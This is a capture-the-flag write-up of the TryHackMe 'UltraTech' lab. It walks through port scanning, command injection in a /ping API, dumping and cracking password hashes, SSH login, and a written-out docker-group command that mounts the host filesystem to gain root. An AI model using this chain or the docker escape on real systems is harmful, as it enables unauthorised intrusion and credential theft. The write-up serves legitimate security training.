 # THM - UltraTech

#### Ip: 10.10.112.141
#### Name: UltraTech
#### Rating: Medium

----------------------------------------------------------------------

![ultra.png](../assets/ultratech_assets/ultra.png)

```text


~_. UltraTech ._~

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.


[ Your Mission ]

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

Start this room by hitting the "deploy" button on the right!


Good luck and more importantly, have fun!
```

Note: This room doesn't have the traditional user.txt and root.txt flags. In this CTF I will still work my way up to the root level user, but won't have any flags to show along the way. 

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -p-  --min-rate 10000 10.10.112.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:15 CDT
Nmap scan report for 10.10.112.141
Host is up (0.12s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.17 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -sC -sV -T4 10.10.112.141 -p 21,22,8081,31331                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:17 CDT
Nmap scan report for 10.10.112.141
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

Becuase FTP doesn't have anonymous logins enabled, lets start by enumerating HTTP. 

Looking at the sites we find a traditional looking website, as well as what appears to be an API. 

![31331.png](../assets/ultratech_assets/31331.png)

![8081.png](../assets/ultratech_assets/8081.png)

I'm definitely interested in exploring this API a bit more. Lets kick off some directory fuzzing against it:

![dir.png](../assets/ultratech_assets/dir.png)

Ok interesting. Before diving into this lets explore port 31331 a bit too.

Looking at the robots.txt directory we find:

![robots.png](../assets/ultratech_assets/robots.png)

From there if we navigate to http://10.10.112.141:31331/utech_sitemap.txt we find a few more directories:

![sitemap.png](../assets/ultratech_assets/sitemap.png)

Back on the main site we find a page that lists some potential usernames. We can keep this in mind for later.

![users.png](../assets/ultratech_assets/users.png)

using feroxbuster to enumerate port 31331 more we find a `/js` directory:

![dir2.png](../assets/ultratech_assets/dir2.png)

And in there we find a api.js file. 

![api.png](../assets/ultratech_assets/api.png)

I'm especially interested in the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` line. This seems to suggest that in `/ping` we can actually interact with the server. Lets try it:

![ping.png](../assets/ultratech_assets/ping.png)

Cool, that worked! Lets see what other commands we can run:

![ls.png](../assets/ultratech_assets/ls.png)

### Exploitation

We've got what appears to be LFI here, and the sqlite DB seems especially juicy. Lets see whats in there:

![hashes.png](../assets/ultratech_assets/hashes.png)

And just like that we have some hashes! Lets try to crack them using https://crackstation.net/:

![crack.png](../assets/ultratech_assets/crack.png)

Awesome, we can now use these credentials to SSH in as user r00t:

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ ssh r00t@10.10.112.141 

<SNIP>

r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ hostname
ultratech-prod
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ cd /root
-bash: cd: /root: Permission denied
```

### Privilege Escalation

Ok, I wonder if we are in a Docker container here. We should be able to escape the docker container by running:

```text
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

That worked! We are now root on this box!

![root.png](../assets/ultratech_assets/root.png)

And we can even grab the root user's SSH key:

![id_rsa.png](../assets/ultratech_assets/id_rsa.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------



